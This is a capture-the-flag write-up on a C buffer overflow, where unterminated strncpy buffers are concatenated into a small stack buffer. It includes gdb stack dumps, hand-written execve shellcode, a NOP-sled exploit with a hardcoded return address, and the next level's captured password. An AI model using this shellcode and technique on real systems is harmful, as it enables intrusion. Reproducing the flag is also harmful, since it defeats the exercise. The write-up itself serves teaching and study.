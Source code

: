 ## Don't forget, sentences end with a point and strings with a '\0' (bonus0)

With this [binary](bonus0/source.c) we're back to good old C and classic buffer
overflows. There's three functions including _main_. The _main_ has a local
buffer of 54 bytes, and calls the function _pp_ on it. There we have two other
buffers each 20 bytes long. _pp_ will call the third function _p_ on both to
fill them with some user input. After that the two buffers are copied and
insecurely concatenated in the buffer provided by the _main_ function.

After some gdb analysis, we can see the state of the stack from _p_:

```shell
# print part of the stack from the end p's buffer
(gdb) x/56wx 0xbffffa88

0xbffffa88:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffa98:     0x61616161      0x00616161      0x00000001      0x00000000
0xbffffaa8:     0xbffffb08     [0x0804854c]     0xbffffaec      0x080486a0
0xbffffab8:     0x00000000      0x00000001      0x00000000      0x00000000
0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffad8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffae8:     0x61616161      0x62626262      0x62626262      0x62626262
0xbffffaf8:     0x62626262      0x00626262      0xb7fd0ff4      0x00000000
0xbffffb08:     0xbffffb58     [0x080485b9]     0xbffffb26      0x080498d8
0xbffffb18:     0x00000001      0x0804835d      0xb7fd13e4      0x00080000
0xbffffb28:     0x080498d8      0x080485f1      0xffffffff      0xb7e5edc6
0xbffffb38:     0xb7fd0ff4      0xb7e5ee55      0xb7fed280      0x00000000
0xbffffb48:     0x080485d9      0xb7fd0ff4      0x080485d0      0x00000000
0xbffffb58:     0x00000000     [n0xb7e454d3]    0x00000001      0xbffffbf4
```

> The values between brackets are the return addresses of every function in the
> binary.

* 0xbffffa88 -> 0xbffffaa0 (24 bytes): end of _p_'s big read buffer (all "0x61")
* 0xbffffaa8 (4 bytes): 0xbffffb08 _pp_'s ebp
* 0xbffffaac (4 bytes): 0x0804854c _p_'s return address <_pp_+46>
* 0xbffffad8 -> 0xbffffaec (20 bytes): _pp_'s first buffer (all "0x61")
* 0xbffffaec -> 0xbffffb00 (20 bytes): _pp_'s second buffer (all "0x62")
* 0xbffffb08 (4 bytes): 0xbffffb58 _main_'s ebp
* 0xbffffb0c (4 bytes): 0x080485b9 _pp_'s return address <_main_+21>
* 0xbffffb26 -> 0xbffffb58 (50 bytes): _main_'s buffer (random data)
* 0xbffffb58 (4 bytes): 0x00000000 *\_\_libc\_start\_main*'s ebp ? (look that up)
* 0xbffffb5c (4 bytes): 0xb7e454d3 _main_'s return address <*\_\_libc\_start\_main*+243>

> To get this result we passed as a first input the result of this command:
> `python -c 'print "a" * 4095'`, and this one for the second input:
> `python -c 'print "b" * 19'` so that they would not overflow their buffers.

_p_'s address cannot be overwritten since the call to `read` is safe and that
`strncpy` targets _pp_'s buffers. But this where the "unsafety" starts. This
`strncpy` call is dangerous because even though it has an upper bound equal to
the length of the buffers it writes to (20), they will not be null-terminated
by the function if the input data is at least 20 bytes long. Also, since the
buffers are next to each other in memory this means that they will be treated as
one big string even if there are null bytes after the second buffer.

This problem is not just theoretical because these buffers ares used with an
`strcpy` and an `strcat` call. Basically the first buffer is going to be copied
into _main_'s buffer. Then the null byte is going to be replaced with a space,
because yolo, and the second buffer is going to be concatenated to it.

In the best case scenario, if the two input buffers are filled with precisely 19
bytes of data and one null-byte _main_'s buffer should contain 39 bytes of data
and one null-byte:

```shell
# run the binary
./bonus0
 - 
# first input (19 bytes)
aaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes too)
bbbbbbbbbbbbbbbbbbb
# nice output
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbb
```

Now just add one byte to the first input:

```shell
# run the binary
./bonus0
 - 
# first input (20 bytes)
aaaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes)
bbbbbbbbbbbbbbbbbbb
# nice-ish output
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbb bbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

What just happened ? The 20 bytes in the first input made it so `strncpy` could
not add a terminating null byte. After the second input is given an `strcpy`
call supposedly copies the 20 bytes of data from the first buffer to _main_'s
buffer. But since it _directly_ followed by the second buffer in memory the call
really copies 39 bytes of data to the destination buffer. And it does not stop
there. Then it replaces the null byte by a space and appends the 19 bytes again
and adds an other null byte. In total this fills the 50 byte buffer with 60
bytes of data (including the null byte).

Basically this means that we can overwrite _main_'s return address. It fills it
with garbage values above, hence the sefault, but we can do something useful
with this. So we have to write 54 bytes of data before overwriting _main_'s
return address.

We could have done a ret2libc (see [level2](level2)), but this is not possible
because we only overflow the buffer by 10 bytes and ret2libc requires at least
writing 12 bytes to be useful (to be able to pass arguments to the called
function). So what we need is a [shellcode](shellcode) and as small as possible.
Like this [one](shellstorm_shellcode.asm) found on
[shellstorm](http://shell-storm.org/shellcode/). Although it did not work in our
case. This is because the registers and stack were already set to random values,
not to 0 as if the program just started on the shellcode. So after some
tinkering here is the final shellcode:

```nasm
section .text
global _start
_start:
xor		edx, edx	; set edx to 0
push	edx			; push it to the stack to end the command string
push	0x68732f2f	; "//sh" end of the command string
push	0x6e69622f	; "/bin" start of the command string
mov		ebx, esp	; set ebx to the start of the command string
push	edx			; push a NULL
push	ebx			; push the command string's address
mov		ecx, esp	; set ecx as a pointer to the command string's address (argv)
push	0xb			; push 11 (execve int number)
pop		eax			; set eax to 11
int		0x80		; call execve
```

This will execute execve with "/bin//sh" as parameter and open us a shell. Now
the exploit:

```shell
python -c 'print "\x90" * 1000 + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x6a\x0b\x58\xcd\x80"'
python -c 'print "a" * 14 + "\xbf\xff\xee\x60"[::-1] * 1 + "a" * 1'
cat
```

The shellcode is at the end of the first input. It will be stored inside _p_'s
read buffer. We put a lot of noops operation before it because we do not know
the precise location of the buffer, so we will set _main_'s return address to
the address we got from gdb plus 128 bytes or so. This works because the layout
differences are not really big between the gdb run process and the normal
version. The read buffer is large enough for that so let's use it. So when the
binary receives this input _main_'s return address is replace with 0xbfffee60,
which is *somewhere* inside _p_'s buffer, the eip skips every noop instructions
to finally encounter and execute the shellcode.

```shell
# run the exploit script above
./exploit.bash | ./bonus0
 - 
 - 
aaaaaaaaaaaaaa`a aaaaaaaaaaaaaa`a
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
